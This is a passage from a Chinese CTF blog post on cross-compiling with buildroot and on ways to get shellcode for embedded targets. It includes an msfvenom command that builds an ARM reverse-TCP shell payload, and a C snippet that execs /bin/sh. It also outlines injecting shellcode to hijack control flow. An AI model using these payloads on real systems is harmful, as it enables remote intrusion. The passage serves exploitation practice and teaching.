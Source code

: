 另外值得注意的是，buildroot可以更方便选择架构小版本（变体），比如MIPS：

> Target Options -> Target Architecture Variant -> 目标变体

![image](https://xuanxuanblingbling.github.io/assets/pic/cross/buildroot3.png)

这个MIPS32R6，就是[X-NUCA 2020 Final 团队赛：QMIPS](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/11/xnuca/)题目的程序版本：

```c
➜  file sampmips 
sampmips: ELF 32-bit MSB executable, MIPS, MIPS32 rel6 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc-mipsn8.so.0, stripped
```

## 目标

所以现在可以根据不同的目标使用交叉编译工具进行编译了，因为本质都是gcc，所以找到：[gcc-cheat-sheet.md](https://github.com/funnydman/nasm-assembly-examples/blob/master/gcc-cheat-sheet.md)

### 独立：shellcode

抠出来能独立运行的代码，可以按照工作的通用性分为两种：

> 对于非linux的shellcode，例子：[vxhunter](https://github.com/PAGalaxyLab/vxhunter)的调试原理。

1. 通用的shellcode：只要内存访问合法，pc指过去就可以工作
2. 特定的shellcode：其中使用了目标程序特定的内存状态和数据

#### 生成方法

总结获得shellcode一般有如下五种办法：

1. pwntools: asm(shellcraft.arm.linux.sh(),arch='arm')
2. msfvenom: msfvenom -p linux/armle/shell/reverse_tcp LHOST=192.168.1.100  LPORT=6666 -f py -o msf.py
3. shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
4. exploit-db: [https://www.exploit-db.com/shellcodes](https://www.exploit-db.com/shellcodes)
5. 自己编译：[StarCTF 2021 RISC-V Pwn Favourite Architecture: shellcode编写练习](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)

其中pwntools和自己编译两种方法是的确要进行本地编译的，不过这里的交叉编译工具就只要符合该指令集即可，没有C库的限制，因为一般来说不需要libc。

#### 成品用法

嵌入式或者环境是qemu的ctf题目，经常没有nx，找到漏洞，把shellcode打进去，然后控制流劫持到shellcode。

#### 情景举例

已经在[shellcode编写]((https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/))练习里写的非常详细了：

> shellcode.c

```c
int execve(char* path, int a, int b);

int main() {
    char buf[10];
    buf[0]='/';
    buf[1]='b';
    buf[2]='i';
    buf[3]='n';
    buf[4]='/';
    buf[5]='s';
    buf[6]='h';
    buf[7]='\0';
    execve(buf,0,0);
}

asm(
```